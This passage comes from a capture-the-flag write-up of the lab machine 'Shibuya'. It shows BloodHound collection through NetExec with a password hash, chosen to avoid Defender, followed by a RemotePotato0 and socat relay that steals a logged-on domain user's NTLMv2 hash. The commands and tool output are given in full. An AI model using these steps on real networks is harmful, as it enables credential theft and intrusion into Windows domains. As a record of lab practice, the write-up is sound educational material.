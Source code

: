 Since Defender is running on the machine, if you try to transfer SharpHound, the transfer will succeed without any issues, but you won’t be able to run it. You might try obfuscation methods here, but I used NetExec to do this.

```bash
➜  Shibuya proxychains -q nxc ldap shibuya.vl -u simon.watson -H <REDACTED>--bloodhound --dns-server 10.10.64.180 --dns-tcp -c All,session,loggedon 
SMB         10.10.64.180    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
LDAP        10.10.64.180    389    AWSJPDC0522      [+] shibuya.vl\simon.watson:<REDACTED>
LDAP        10.10.64.180    389    AWSJPDC0522      Resolved collection methods: session, group, psremote, loggedon, container, trusts, dcom, objectprops, localadmin, rdp, acl
LDAP        10.10.64.180    389    AWSJPDC0522      Done in 00M 24S
LDAP        10.10.64.180    389    AWSJPDC0522      Compressing output into /home/user/.nxc/logs/AWSJPDC0522_10.10.64.180_2025-04-20_170058_bloodhound.zip
```

(I set up SSH tunneling, as you can see. Otherwise, I wouldn't have been able to run the BloodHound module.)

<figure><img src="../.gitbook/assets/hassesion.png" alt=""><figcaption></figcaption></figure>

According to the BloodHound data, the nigel.mills user had a session on the DC. We could have dumped the hashes using Mimikatz, but unfortunately, we have an issue with Defender. To bypass this, different methods can be used, and I used remote\_potato0. It's fairly simple to use, but it returns the hash in NTLMv2 format. We hope to crack it with hashcat.

Attacker machine:

```bash
➜  Shibuya sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.64.180:8001
```

Victim machine:

```powershell
PS C:\Users\simon.watson> .\RemotePotato0.exe -m 2 -s 1 -x 10.8.6.29 -p 8001 
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 8001
[*] Example Network redirector: 
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:8001
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 8001 ...
[*] IStoragetrigger written: 100 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 8001
[+] User hash stolen!

NTLMv2 Client   : AWSJPDC0522
NTLMv2 Username : SHIBUYA\Nigel.Mills
NTLMv2 Hash     : <REDACTED>
```
